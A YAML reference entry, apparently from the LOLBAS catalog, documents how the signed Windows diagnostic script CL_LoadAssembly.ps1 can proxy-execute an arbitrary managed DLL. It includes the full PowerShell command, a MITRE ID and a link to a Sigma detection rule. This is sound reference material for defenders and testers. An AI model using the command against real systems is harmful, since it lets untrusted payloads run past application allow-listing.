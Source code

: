 ```yaml
---
Name: CL_LoadAssembly.ps1
Description: PowerShell Diagnostic Script
Author: Jimmy (@bohops)
Created: 2021-09-26
Commands:
  - Command: '”powershell.exe -command "set-location -path C:\Windows\diagnostics\system\Audio; import-module .\CL_LoadAssembly.ps1; LoadAssemblyFromPath ..\..\..\..\testing\fun.dll;[Program]::Fun()'
    Description: Proxy execute Managed DLL with PowerShell
    Usecase: Execute proxied payload with Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1216
    OperatingSystem: Windows 10 21H1 (likely other versions as well)
Full_Path:
  - Path: C:\Windows\diagnostics\system\Audio\CL_LoadAssembly.ps1
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/ff6c54ded6b52f379cec11fe17c1ccb956faa660/rules/windows/process_creation/proc_creation_win_lolbas_cl_loadassembly.yml
Resources:
  - Link: https://bohops.com/2018/01/07/executing-commands-and-bypassing-applocker-with-powershell-diagnostic-scripts/
Acknowledgement:
  - Person: Jimmy
    Handle: '@bohops'
---
```

